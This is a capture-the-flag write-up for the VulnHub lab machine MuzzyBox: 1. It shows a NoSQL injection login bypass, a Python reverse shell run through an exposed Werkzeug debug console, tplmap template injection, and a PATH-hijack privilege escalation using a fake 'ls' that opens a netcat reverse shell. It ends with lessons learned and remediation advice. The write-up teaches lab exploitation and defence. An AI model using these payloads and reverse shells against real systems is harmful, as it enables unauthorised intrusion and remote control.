



# MuzzyBox: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.6 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Flags** | 3 CTF flags (NoSQL auth bypass, Werkzeug console RCE, SSTI + PATH hijack) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/muzzybox-1,) |

## Attack Summary

`nmap` → NoSQL injection on port 3000 (FLAG1) → Werkzeug debug console Python RCE (FLAG2) → tplmap SSTI on port 15000 → SSH → writable PATH privesc (FLAG3)

## Methodology

1. Network discovery and port scan
2. NoSQL injection on MongoDB-backed login (port 3000)
3. Werkzeug interactive debug console via flag PIN
4. SSTI via tplmap on port 15000
5. SSH access and PATH hijacking for root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.6
```

Ports discovered:
- 22/tcp — SSH
- 80/tcp — HTTP (index with `index.txt`)
- 3000/tcp — Library login app (Node.js + MongoDB)
- 8989/tcp — Werkzeug debug console
- 9633/tcp — ID card template server
- 15000/tcp — SSTI-vulnerable Flask page


---

## Step 2: Web Enumeration

```bash
curl http://192.168.1.6/index.txt
wget http://192.168.1.6:9633/idcard.png
```

The `index.txt` describes the three challenges. The idcard template is used in Challenge 1.

---

## Step 3: Challenge 1 — NoSQL Injection (FLAG1)

The library login on port 3000 uses MongoDB. The "Name" field in the uploaded ID card is passed directly into a MongoDB query.

Upload the idcard with a NoSQL injection payload in the Name field:

```
Name: {$ne: 1}
```

This bypasses the query (`db.users.find({name: {$ne: 1}})`), returning all records and granting access.

**FLAG1:** `N$ctF{D388uG_P!N_!$_123-456-789}`  
The flag also contains the PIN for the next challenge.



---

## Step 4: Challenge 2 — Werkzeug Debug Console RCE (FLAG2)

Port 8989 hosts a Werkzeug interactive console locked with the PIN from FLAG1: `123-456-789`.

Set up a listener:

```bash
nc -lvp 5555
```

In the Werkzeug console, run a Python reverse shell:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.5",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

Once the shell arrives:

```bash
ls
cd flag
cat ctf2.py
```



**FLAG2:** `N$cTF{R34D_F!L3_/home/webssti/noflag.txt}`

---

## Step 5: Challenge 3 — SSTI via tplmap (FLAG3)

Port 15000 has a Flask Jinja2 template that reflects the `name` parameter unsanitized.

```bash
git clone https://github.com/epinna/tplmap.git
cd tplmap
python tplmap.py -u "http://192.168.1.6:15000/page?name=*" --os-shell
```

Inside the tplmap OS shell:

```bash
cat ssti/no_flag.txt   # Contains SSH credentials
ssh <user>@192.168.1.6
```

After SSH login, check sudo and PATH:

```bash
sudo -l
echo $PATH
ls /usr/local/sbin
which ls
```

The `/usr/local/sbin` directory is writable and precedes `/bin` in PATH. Create a malicious `ls`:

```bash
nano /usr/local/sbin/ls
# Add: nc -e /bin/bash 192.168.1.5 1234
chmod +x /usr/local/sbin/ls
```

Start a listener, then trigger `ls` as root (via sudo or a root-executed script):

```bash
nc -lvp 1234
```

**FLAG3:** `N$CtF{8!NG000!!!__Y0U_D!D_!T_80!!!}`



---

## Lessons Learned

1. **NoSQL injection** (`{$ne: 1}`) bypasses MongoDB `find()` queries when user input reaches the query object unsanitized
2. **Werkzeug debug mode** should never be enabled in production; the interactive console gives full Python RCE
3. **SSTI via Jinja2** — never reflect unsanitized template variables; use `{{ var | e }}` or pass data via context, not URL
4. **PATH hijacking** — always use absolute paths in scripts; validate PATH before running binaries as root

## Remediation

| Vulnerability | Fix |
|---|---|
| NoSQL injection | Use parameterized queries; validate/escape input before MongoDB operations |
| Werkzeug debug console | Set `DEBUG=False` in production; restrict port 8989 to localhost |
| SSTI (Jinja2) | Never use `render_template_string` with user input; use `autoescape=True` |
| PATH hijacking | Use absolute paths in root-executed scripts; restrict write permissions on PATH dirs |
